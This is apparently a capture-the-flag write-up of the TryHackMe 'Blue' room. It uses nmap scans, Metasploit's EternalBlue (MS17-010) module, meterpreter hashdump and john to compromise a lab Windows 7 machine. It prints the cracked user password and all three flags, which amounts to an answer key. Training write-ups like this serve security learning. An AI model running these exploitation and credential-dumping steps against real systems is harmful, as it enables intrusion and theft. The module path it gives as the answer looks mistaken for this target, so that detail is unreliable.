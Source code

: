 ```yaml
---
layout: post
title: Write-Up [THM] Blue
categories: [Write-Ups]
tags: [TryHackMe, Windows, Eternal blue]
featured-image:  thm/blue/theme.png
featured-image-alt: Blue
---
```


It's a write-up about the room : [Try Hack Me - Room : Blue](https://tryhackme.com/room/blue)

# [Task 1] - Recon

![Task 1](/assets/img/thm/blue/task-1.png)

First, we deploy the instance.  
We scan the machine with the command : `nmap -sV MACHINE_IP`. 

	```
	PORT      STATE SERVICE            VERSION
	135/tcp   open  msrpc              Microsoft Windows RPC
	139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
	445/tcp   open  microsoft-ds       Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
	3389/tcp  open  ssl/ms-wbt-server?
	49152/tcp open  msrpc              Microsoft Windows RPC
	49153/tcp open  msrpc              Microsoft Windows RPC
	49154/tcp open  msrpc              Microsoft Windows RPC
	49158/tcp open  msrpc              Microsoft Windows RPC
	49160/tcp open  msrpc              Microsoft Windows RPC
	Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows
	```

* How many ports are open with a port number under 1000? `3`

* What is this machine vulnerable to?  
We run the command :  `nmap --script vuln MACHINE_IP` 
	
	```
	Host script results:
	|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
	|_smb-vuln-ms10-054: false
	|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
	| smb-vuln-ms17-010: 
	|   VULNERABLE:
	|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
	|     State: VULNERABLE
	|     IDs:  CVE:CVE-2017-0143
	|     Risk factor: HIGH
	|       A critical remote code execution vulnerability exists in Microsoft SMBv1
	|        servers (ms17-010).
	|           
	|     Disclosure date: 2017-03-14
	|     References:
	|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
	|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
	|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
	```

We find the vulnerability **ms17-010**.
	
# [Task 2] - Gain Access 

> Exploit the machine and gain a foothold.

* Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)

We run the command : `use ms17-010` and obtain the result below :

```
	Matching Modules
	================
	
	   #  Name                                           Disclosure Date  Rank     Check  Description
	   -  ----                                           ---------------  ----     -----  -----------
	   0  auxiliary/admin/smb/ms17_010_command           2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
	   1  auxiliary/scanner/smb/smb_ms17_010                              normal   No     MS17-010 SMB RCE Detection
	   2  exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
	   3  exploit/windows/smb/ms17_010_eternalblue_win8  2017-03-14       average  No     MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
	   4  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
	   5  exploit/windows/smb/smb_doublepulsar_rce       2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution
```

So, the full path of the exploitation code is **exploit/windows/smb/ms17_010_eternalblue_win8**.  
After that, we exploit the vulnerability 3 : `use 3`

* Show options and set the one required value. What is the name of this value ?

We use `show options` on msfconcole and the required value is `RHOSTS`.

# [Task 3] - Escalate

> Escalate privileges, learn how to upgrade shells in metasploit.

On msfconsole we do : `use post/multi/manage/shell_to_meterpreter` and `set session 1`.
After, we do `sessions` and `sessions -i 2`.

# [Task 4] - Cracking

> Dump the non-default user's password and crack it!

In the meterpreter we use `hashdump` and find the name of the non-default user : **Jon**.

We use `john jon.hash --format=NT --wordlist=/opt/rockyou.txt`.   
After that, to see the passwaord we do : `john jon.hash --format=NT --show` and find **alqfna22**.

# [Task 5] - Find flags!

* Flag 1 ? 

In the meterpreter with `ls` we find the file `flag1.txt` and use `cat` to read it.  
The flag 1 is `access\_the\_machine`.

* Flag 2 ?

The file `flag2.txt` is hidden in `Windows/System/config`.  
The flag is `sam\_database\_elevated\_access`.

* Flag 3 ? 

This one is hidden in the file `flag3.txt` in the directory : `Users/Jon/Documents`.  
The flag is `admin\_documents\_can\_be\_valuable`.